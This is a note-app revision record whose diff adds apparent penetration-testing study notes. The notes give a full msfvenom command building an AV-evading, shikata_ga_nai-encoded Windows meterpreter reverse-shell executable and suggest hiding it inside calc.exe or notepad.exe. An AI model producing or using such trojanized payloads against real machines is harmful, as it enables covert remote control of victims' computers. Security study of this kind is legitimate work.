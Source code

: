 id: 9a1aead7f51f4a28a32eb5b3650a2e2d
parent_id: 1634936e29954ab98fc8a391f3461c99
item_type: 1
item_id: f1cbbe07c0c44adb91ce6010b852b46f
item_updated_time: 1642647699432
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\"_ga\\\\_nai\"],[1,\" - very common till AV can detect\\\n\\\n> ```\\\n> msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=5555 -f exe -e x86/shikata_ga_nai -i 9 -o meterpreter_encoded.exe\\\n> ```\\\n\\\nEmbed in a non-malicious file, like calc.exe (can use notepad.exe in windows-binaries)\"]],\"start1\":946,\"start2\":946,\"length1\":8,\"length2\":280}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-01-20T03:07:11.396Z
created_time: 2022-01-20T03:07:11.396Z
type_: 13